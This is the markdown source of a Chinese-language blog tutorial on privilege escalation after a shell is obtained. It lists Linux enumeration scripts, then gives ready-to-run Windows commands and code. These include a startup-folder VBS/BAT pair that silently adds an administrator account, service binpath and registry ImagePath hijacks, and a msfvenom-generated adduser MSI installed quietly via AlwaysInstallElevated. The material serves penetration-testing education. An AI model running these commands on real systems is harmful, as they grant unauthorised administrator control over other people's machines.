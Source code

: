 ```yaml
---
layout: post
title:  "网络安全－提权"
categories: 网络安全
tags: 网络安全 提权
author: xueyp
description: windows和linux常见提权手段
---
```


Linux提权
============

　　当渗透成功拥有一个shell后，由于获得的初始权限可能不高，可能会有一些拒绝执行指令的限制。为了获得目标主机的完整控制权限，需要在未授权的地方绕过权限控制。

　　Metasploit 拥有各种使用不同技术的exploits尝试获取系统级权限。除此之外，这里还有一些在linux下使用的脚本。当尝试在目标机器上提升权限时可能会很有用。通常它们的目的是枚举系统信息而不是给出具体的vulnerabilities/exploits。这种类型的脚本将会节省很多提权时间。

- **LinEnum**[下载](https://github.com/rebootuser/LinEnum)

　　可以列举系统设置并且高度总结的linux本地枚举和权限提升检测脚本

　　隐私访问：判断当前用户是否能够用空口令使用sudo命令,root用户的家目录能否访问。

　　系统信息：主机名，网络详情，当前IP等等。

　　用户信息：当前用户，列出所有包含uid/gid的用户信息，列出有root权限的用户，检查密码hash是否保存在/etc/passwd。


- **Linuxprivchecker**[下载](http://www.securitysift.com/download/linuxprivchecker.py)

　　枚举系统设置和执行一些提升权限的检查。它由python实现，用来对被控制的系统提供建议的exploits。在终端中只需要使用 python linuxprivchecke.py 命令就可以使用，它将会枚举文件和目录的权限和内容。这个脚本和LinEnum工作方式一样,而且在关于系统网络和用户方面搜寻的很详细。

- **Linux Exploit Suggester**[下载](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)

　　基于操作系统的内核版本号。执行“uname -r”来得到系统内核版本号。然后返回一个包含了可能exploits的列表。另外它还可以使用“-k”参数手工指定内核版本。不过有几年未更新过了。

例如：

```
./Linux_Exploit_Suggester.pl -k 3.5
```

- **Unix-Privesc-checker**[下载](https://github.com/pentestmonkey/unix-privesc-check)

　　在UNIX系统上检测权限提升向量的shell脚本。它可以在UNIX和Linux系统上运行。寻找那些错误的配置可以用来允许未授权用户提升对其他用户或者本地应用的权限。

　　它被编写为单个shell脚本所以可以很容易上传和执行。它可以被普通用户或者root用户执行。当它发现一个组可写(group-writable)的文件或目录时，它只标记一个问题如果这个组包含了超过一个的非root成员。

　　使用也很简单，例如：

```
unix-privesc-check detailed
```

Windows提权
============
- **信息**

　　我们在拿到目标机器的后，需要先看下它的版本,远程端口等，下面列出了部门获取信息的命令
```
systeminfo | findstr OS  //获取系统版本信息
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber  //获取远程端口
wmic qfe get Caption,Description,HotFixID,InstalledOn  //获取系统打了哪些补丁
set //获取环境变量
```


　　获取系统安装软件的信息

```
reg export HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall reg.txt //导出注册表信息
find "DisplayName" reg.txt |find /V "ParentDisplayName" > list.txt//找出注册表中的软件信息
for /f "tokens=2,3 delims==/" %a in (tmplist.txt) do (echo %a >> softwarelist.txt)//将最终信息导出到softwarelist.txt
```
 
　　导出系统所有注册表

```
reg export HKLM hklm.reg
reg export HKCU hkcu.reg
reg export HKCU hkcr.reg
reg export HKCU hku.reg
reg export HKCU hkcc.reg
```

- **Trusted Service Paths**

1 如果一个服务是以系统权限运行的，并且它的路径里面有空格，并且运行这个程序的时候文件路径没有完全包含在引号内，就有此漏洞。

2 举个例子C:\Program Files\Elantech\ETDService.exe 这个是我电脑上的一个服务，首先windows会先找C:\Program.exe 文件再找C:\Program Files\Elantech\ETDService.exe 如果路径中空格较多，以此类推。

3 想一下，如果我们在c:\下放一个Program.exe的木马文件，拿这个木马文件就是以系统权限运行的了（大部分情况下）。

4 我们用msf生成一个木马文件，上传到c盘，然后关闭ETDService服务，再重启ETDService就可以，如果我们没有权限关闭这个服务，就只有等管理员重启这个服务。

- **开机自启程序提权**

1 在windows开机的时候会自动运行一些程序，如果我们能把恶意程序放在开机自启目录下，并且开机的时候是以高权限用户开启就能成功执行我们的恶意程序。

2 下面是一段新建用户的vbs代码，将文件放在C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

```
set wshshell=createobject ("wscript.shell")
a=wshshell.run ("cmd.exe /c net user laowng laowang /add",0)
b=wshshell.run ("cmd.exe /c net localgroup Administrators laowang /add",0)
```
 
　　其实这个用bat文件也可以，但是bat文件在开机的时候会弹一个小黑框，下面是bat文件的代码

```
@echo off
net user xiao 123321 /add
net localgroup administrators xiao /add
```

- **错误的权限配置**

1 类似于开机自启动提权，有些程序会在开机时在后台运行，如果一个低权限的用户对对这些可执行文件所在的目录有写得权限，攻击者可以把这些可执行文件替换成恶意代码文件。

2 我们可以手动测试步骤：

　　accesschk64.exe -uwcqv “administrator” * /accepteula （下载地址）查看当前用户可以修改的服务（将administrator替换成Authenticated Users可以查看除了Guests用户以外所有用用户名、密码通过身份验证的账户能完全控制的服务）

　　比如我们的服务的可执行文件是a.exe执行以下代码
```
sc config a binpath="net user test test /add"
sc stop a
sc start a
sc config a binpath="net localgroup administrators test /add"
sc stop a
sc start a
```

　　这里binpath是指这个服务的可执行文件的路径，如果我们不能自己重启，当这个程序下次被管理员重启时我们任然能在目标设备上新建一个用户。

- **注册表权限配置不当**

1 与windows服务有关的信息存储在HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services中，比如我的lsass存储在HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\VaultSvc\ImagePath中，加入入侵者对这个注册表有修改的权限，他可以将这个值改成恶意程序的路径，这样这个程序就是以systen权限运行的。

2 我们可以在目标机上上传一个subinacl.exe

```
subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\360FsFlt"/display
```
 
　　查看我们对这个注册表是否有修改权限，如果有我们就可以修改注册表

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\360FsFlt" /t REG_EXPAND_SZ /v ImagePath /d "C:\programdata\adduser.exe" /f
```

- **用户以system权限安装msi**

1 在安装msi的时候，如果被攻击机开启了AlwaysInstallElevated设置，意味着即使我们是低权限用户，但是在安装msi的时候是以system权限去运行的。

2 注册表查看AlwaysInstallElevated的值
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
 
　　如果这两个值都是1说明开启了AlwaysInstallElevated设置，这个时候我们就可以用msf生成一个msi木马

3 msf生成恶意msi
```
msfvenom -p windows/adduser USER=test PASS=test -f msi-nouac -o haha.msi
```

4 命令行安装msi
```
msiexec /quiet /qn /i C:\programdata\haha.msi
```

- **计划任务**

1 使用命令accesschk.exe -dqv "F:\tools" -accepteula 用户对这个目录的权限，加入找到一个该权限运行的目录并且低权限用户拥有写入权限，我们就可以用恶意程序替换掉原有程序。

参考
============
[Windows提权的几种姿势](http://www.freebuf.com/vuls/87463.html)
[Linux下三种提权方式](https://blog.csdn.net/yaofeino1/article/details/62897259)


版权声明：本文为博主原创文章，转载请注明出处。 [旭日酒馆](https://xueyp.github.io/)
